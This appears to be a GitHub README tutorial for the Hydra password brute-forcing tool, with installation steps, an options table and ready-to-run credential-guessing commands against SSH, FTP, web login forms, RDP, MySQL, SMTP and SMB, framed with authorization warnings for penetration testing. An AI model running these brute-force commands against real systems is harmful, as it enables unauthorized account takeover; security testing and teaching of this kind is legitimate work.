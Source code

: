 # 🔥 Hydra - Fast and Flexible Password Cracking Tool  

Hydra is a **powerful and fast password brute-forcing tool** 🔓 used to perform automated attacks against **various network services and protocols**. It is widely used by **penetration testers, ethical hackers, and cybersecurity researchers** 🕵️‍♂️💻.  

🚨 **Warning:** Unauthorized usage of Hydra is illegal! Only use it on systems you have permission to test. 🚨  

---

## 📌 Features of Hydra  

✅ **Fast and efficient** brute-force attack tool.  
✅ **Supports parallel attacks** using multiple threads.  
✅ **Can test multiple login credentials** automatically.  
✅ **Works on various protocols and services** (SSH, FTP, HTTP, RDP, MySQL, etc.).  
✅ **Supports dictionary attacks, hybrid attacks, and more**.  

---

## 🚀 Installation  

### 🐧 Linux (Kali & Debian-based)  
```bash
sudo apt install hydra
```

### 🍏 macOS (Homebrew)  
```bash
brew install hydra
```

### 🖥️ Windows  
Hydra is primarily designed for **Linux**, but it can run on Windows using **Cygwin** or **WSL (Windows Subsystem for Linux)**.  

---

## 🛠️ Basic Command Structure  

```bash
hydra [OPTIONS] -l <username> -P <password_list> <protocol>://<target>
```

### 🔑 Commonly Used Options  

| Option | Description |
|--------|-------------|
| `-l <username>` | Single username |
| `-L <user_list>` | List of usernames |
| `-p <password>` | Single password |
| `-P <password_list>` | List of passwords |
| `-t <threads>` | Number of parallel attack threads (default: 16) |
| `-V` | Show each attempt in real time |
| `-f` | Stop after the first successful attempt |
| `-vV` | Show detailed output |
| `-o <file>` | Save results to a file |
| `-I` | Ignore failure messages |
| `-s <port>` | Specify a custom port |

---

## 🌐 Supported Protocols  

Hydra supports a **wide range of protocols**, including:  

- **🔐 SSH (Secure Shell)**
- **📡 FTP (File Transfer Protocol)**
- **🌍 HTTP / HTTPS (Web Authentication)**
- **💾 SMB (Windows File Sharing)**
- **🎮 RDP (Remote Desktop Protocol)**
- **🛢️ MySQL, PostgreSQL, MSSQL, Oracle (Databases)**
- **📧 SMTP, POP3, IMAP (Email Services)**
- **🖥️ VNC (Remote Desktop)**
- **🔍 LDAP (Directory Services)**
- **💬 Telnet (Old Remote Access Protocol)**  

To see the full list of supported services, run:  
```bash
hydra -h
```

---

## 🚀 Common Usage Examples  

### 🔐 1. SSH Brute-Force Attack  
```bash
hydra -l root -P passwords.txt ssh://192.168.1.100
```
✅ Tries multiple passwords from `passwords.txt` for the **root** user on **SSH**.  

---

### 🗂️ 2. SSH Attack with Username List  
```bash
hydra -L users.txt -P passwords.txt ssh://192.168.1.100
```
✅ Tests multiple usernames from `users.txt` against multiple passwords from `passwords.txt`.  

---

### 🌍 3. HTTP Form-Based Login Attack  
```bash
hydra -l admin -P passwords.txt 192.168.1.100 http-post-form "/login.php:user=^USER^&pass=^PASS^:F=Incorrect"
```
✅ Hydra replaces `^USER^` and `^PASS^` with credentials from the lists.  
✅ The attack stops when it detects "Incorrect" in the response.  

---

### 🎯 4. FTP Brute-Force Attack  
```bash
hydra -L users.txt -P passwords.txt ftp://192.168.1.100
```
✅ Tests FTP login using **multiple usernames and passwords**.  

---

### 🖥️ 5. RDP (Windows Remote Desktop) Attack  
```bash
hydra -l administrator -P passwords.txt rdp://192.168.1.100
```
✅ Attempts to brute-force **Windows RDP** login.  

---

### 💾 6. MySQL Database Attack  
```bash
hydra -L users.txt -P passwords.txt mysql://192.168.1.100
```
✅ Tests login credentials on a **MySQL database**.  

---

### 📨 7. SMTP Email Server Attack  
```bash
hydra -l admin@example.com -P passwords.txt smtp://192.168.1.100 -V
```
✅ Attempts to log in to an **SMTP email server** with a known email account.  

---

### 📡 8. Brute-Force Attack on SMB (Windows File Sharing)  
```bash
hydra -L users.txt -P passwords.txt smb://192.168.1.100
```
✅ Tests login credentials for **Windows SMB file sharing**.  

---

### 🔀 9. Parallel Attack with 50 Threads  
```bash
hydra -L users.txt -P passwords.txt -t 50 ssh://192.168.1.100
```
✅ Increases attack speed by **using 50 concurrent threads**.  

---

### 📝 10. Save Output to a File  
```bash
hydra -L users.txt -P passwords.txt ssh://192.168.1.100 -o results.txt
```
✅ Saves successful login attempts to `results.txt`.  

---

## 📌 Useful Hydra Tricks  

### 🔄 Resume a Previous Attack  
```bash
hydra -R
```
✅ If an attack is interrupted, **this command resumes it**.  

---

### 🚀 Maximize Speed  
```bash
hydra -L users.txt -P passwords.txt -t 64 ssh://192.168.1.100
```
✅ Uses **64 attack threads** for maximum speed.  

---

### 🚫 Stop After First Successful Attempt  
```bash
hydra -L users.txt -P passwords.txt ssh://192.168.1.100 -f
```
✅ Stops as soon as **one working password** is found.  

---

## ⚠️ Ethical Usage Warning  

🚨 **Hydra is a penetration testing tool and should only be used on systems you have permission to test. Unauthorized use is illegal and may result in severe consequences!** 🚨  

---

## 📜 Conclusion  

Hydra is one of the **fastest and most powerful password brute-forcing tools** 🔥. It is widely used by security professionals to **test authentication mechanisms**.  

📌 **For more details, visit the official GitHub repository:**  
[Hydra on GitHub](https://github.com/vanhauser-thc/thc-hydra)  

---

🚀 **Happy Hacking (Ethically)!** 😃🔥
